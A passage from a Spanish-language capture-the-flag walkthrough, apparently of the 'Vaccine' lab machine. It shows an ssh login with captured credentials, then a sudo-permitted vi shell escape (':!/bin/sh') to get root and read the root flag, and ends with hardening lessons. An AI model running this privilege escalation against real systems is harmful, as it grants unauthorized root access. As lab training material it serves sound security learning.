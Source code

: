 🗹 Conectarse por `ssh` con las credenciales obtenidas:

```shell
ssh postgres@10.129.228.82
```

🗹 Listar los permisos de sudo que tiene el usuario actual:

```shell
postgres@vaccine:~$ sudo -l

Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

🗹 Abrir el archivo pg_hba.conf como `sudo` con `vi`:

```shell
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

[GTFOBINS: vi -> sudo](https://gtfobins.github.io/gtfobins/vi/#sudo)

🗹 Dentro de `vi` entrar en modo comandos presionando la tecla `esc` seguido de los dos puntos `:` y ejecutar:

```shell
!/bin/sh
```

## Root flag

🗹 La root flag se encuentra en el directorio `/root`:

```shell
cat /root/root.txt
```

## Cositas aprendidas

Directorio a tener en cuenta: `/etc/postgresql/11/main#`

Archivos de configuración de postgresql:
- `postgresql.conf`
- `pg_hba.conf`

Verificar los archivos a los que los usuarios tienen acceso con privilegios de `sudo` para evitar `shell escape`.

